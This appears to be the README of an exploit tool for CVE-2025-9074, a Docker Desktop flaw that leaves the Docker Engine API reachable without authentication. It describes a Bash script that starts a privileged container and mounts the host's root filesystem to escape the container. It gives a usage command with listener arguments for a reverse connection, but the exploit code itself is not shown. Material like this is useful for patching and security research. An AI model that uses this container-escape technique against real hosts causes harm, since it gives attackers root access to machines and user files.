

# Docker API Unauthenticated RCE (CVE-2025-9074)

A critical CVE-2025-9074 vulnerability in Docker Desktop enables locally running Linux containers to connect to the Docker Engine API through the default subnet (192.168.65.7:2375). The issue persists regardless of Enhanced Container Isolation (ECI) or TCP exposure settings. Proof of Concept exploit code is publicly available for CVE-2025-9074. The vulnerability may allow unauthorized access to user files on the host system. Hence, the risk level is rated as High Risk.

A standalone Bash script to exploit exposed Docker APIs (typically port 2375) without authentication. This tool automates container breakout via volume mounting, allowing for remote code execution.

## Features

- **Zero Dependencies:** Implemented entirely in Bash using standard utilities such as `curl` and `grep`. No external binaries or third‑party tools are required.
- **Unauthenticated Exploitation:** Directly interacts with the Docker Engine API without authentication.
- **Automated Container Creation:** Automatically creates and starts a privileged container.
- **Host Root Access:** Mounts the host root filesystem to achieve container escape.
- **Portable:** Works in minimal container environments with limited tooling.
## Usage

```bash
chmod +x exploit.sh
./exploit.sh [TARGET_IP] [PORT] -l <listener_ip> -p <listener_port>
```
# Proof Of Concept
